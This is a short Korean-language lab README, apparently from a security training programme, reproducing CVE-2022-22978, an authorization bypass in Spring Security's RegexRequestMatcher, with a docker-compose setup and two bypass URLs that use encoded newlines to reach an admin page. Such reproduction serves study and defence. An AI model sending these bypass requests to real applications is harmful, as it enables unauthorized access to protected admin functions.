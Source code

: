 # CVE-2022-22978

화이트햇 스쿨 3기 김태우_2249

Spring Security 프레임워크는 Spring 프레임워크에서 보안 인증 기능을 제공하는 데 사용됩니다.
Spring Security 5.5.6 및 5.6.3 버전과 이보다 오래된 지원되지 않는 버전들에서는,
정규 표현식에 .(마침표)가 포함된 **RegexRequestMatcher**를 사용하는 애플리케이션이 인가 우회(authorization bypass) 취약점에 노출될 가능성이 있습니다.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## 환경 구성 및 실행

다음 명령어를 실행하여 Spring Security 5.6.3 기반의 웹 애플리케이션을 시작:

```
docker-compose up -d
```
서버 시작 후, <http://your-ip:8080/admin> 를 접속하여 admin 페이지가 막힘을 확인

![](admin_Error.png)

## Vulnerability Reproduce

인증을 우회한 관리자 페이지에 접근하려면 다음 요청을 보냄

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>

![](admin_Success.png)
